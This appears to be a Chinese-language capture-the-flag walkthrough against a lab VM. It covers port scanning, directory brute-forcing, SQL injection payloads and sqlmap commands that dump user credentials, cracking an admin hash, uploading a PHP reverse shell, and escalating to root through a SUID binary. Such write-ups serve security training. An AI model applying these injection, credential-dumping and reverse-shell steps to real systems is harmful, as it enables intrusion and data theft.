[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.186 |awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

存在端口22，80

分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



## 漏洞扫描



- 枚举了两个目录，/login.php和/uploads

## UDP扫描



- 扫描得到的信息都很少，接下来从端口找信息

# 端口分析

先对80端口进行目录爆破

```
gobuster dir -u "http://192.168.174.186" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -x php,txt,zip
```



（最好多用一个工具，比如dirb）感觉是一个正常的网站，发现还有uploads目录，这个可以考虑后续用反弹shell

- 登录页面可以注册，先注册进去试试

- 直接点搜索发现



尝试搜索单个book title

## sql注入



发现回显单个，尝试sql注入

```
CISSP Guide' and 1=1#
```



发现也回显单个

```
CISSP Guide' and 1=2#
```



无回显，说明是单引号字符型注入

```
CISSP Guide' order by 4#
```

这时无回显，说明有3列

```
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#
```

- union注入最好将第一个参数设置为-1，0等，因为union型注入会因为前面错误而执行后段语句，有时候因为前面可以执行后面语句就不再执行了



成功执行，后面就不再展示了，很经典，也可以用sqlmap

- 先抓包



发现是POST,将抓包内容复制到文件2.txt，设置search=*

```
sqlmap -r 2.txt --batch --dbs (--tables,--columns,--dump)
```

最后是

```
sqlmap -r 1.txt --batch -D webapphacking -T users -C 'id,user,pasword' --dump 
```



得到多个用户的密码以及hash值，破解superadmin的hash值后登录



发现可以上传图片，不过实际可以上传任何文件，我直接上传了php-reverse-shell.php



在本地开启监听，直接连接

# 提权

```
whereis python
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```



拿到功能完整的tty

```
find / -perm -u=s -type f 2>/dev/null
```



发现touchmenot有suid权限

直接运行这个文件

```
./touchmenot
```



成功提权